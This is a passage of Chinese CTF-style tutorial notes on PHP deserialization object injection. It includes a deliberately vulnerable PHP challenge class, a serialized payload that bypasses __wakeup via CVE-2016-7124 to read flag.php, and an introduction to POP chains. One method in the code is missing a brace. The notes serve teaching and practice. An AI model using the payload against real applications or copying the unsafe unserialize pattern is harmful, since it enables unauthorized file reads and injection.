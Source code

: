 ## 2.反序列化对象注入

### 1.绕过\_\_wakeup()方法

test:

```php
<?php 
class SoFun{ 
  protected $file='index.php';
  function __destruct(){ 
    if(!empty($this->file)) {
      if(strchr($this-> file,"\\")===false &&  strchr($this->file, '/')===false)
        show_source(dirname (__FILE__).'/'.$this ->file);
      else
        die('Wrong filename.');
    }
  }  
  function __wakeup(){
   $this-> file='index.php';
  } 
  public function __toString()
    return '' ;
  }
}     
if (!isset($_GET['file'])){ 
  show_source('index.php');
}
else{ 
  $file=base64_decode($_GET['file']); 
  echo unserialize($file); 
}
 ?> #<!--key in flag.php-->
```

就是要利用unserialize将file设为flag.php，但是`__wakeup`会在unserialize之前执行，所以要绕过这一点。

CVE-2016-7124漏洞，**当序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行**

构造序列化对象：`O:5:"SoFun":1:{S:7:"\00*\00file";s:8:"flag.php";}`
**绕过__wakeup**：`O:5:"SoFun":2:{S:7:"\00*\00file";s:8:"flag.php";}`

## 3.POP链构造

### 1.POP：面向属性编程

面向属性编程（Property-Oriented Programing） 用于上层语言构造特定调用链的方法，与二进制利用中的面向返回编程（Return-Oriented Programing）的原理相似，都是从现有运行环境中寻找一系列的代码或者指令调用，然后根据需求构成一组连续的调用链。在控制代码或者程序的执行流程后就能够使用这一组调用链来执行一些操作。

### 2.基本概念

在二进制利用时，ROP 链构造中是寻找当前系统环境中或者内存环境里已经存在的、具有固定地址且带有返回操作的指令集，而 POP 链的构造则是寻找程序当前环境中已经定义了或者能够动态加载的对象中的属性（函数方法），将一些可能的调用组合在一起形成一个完整的、具有目的性的操作。
二进制中通常是由于内存溢出控制了指令执行流程，而反序列化过程就是控制代码执行流程的方法之一，前提：**进行反序列化的数据能够被用户输入所控制。**
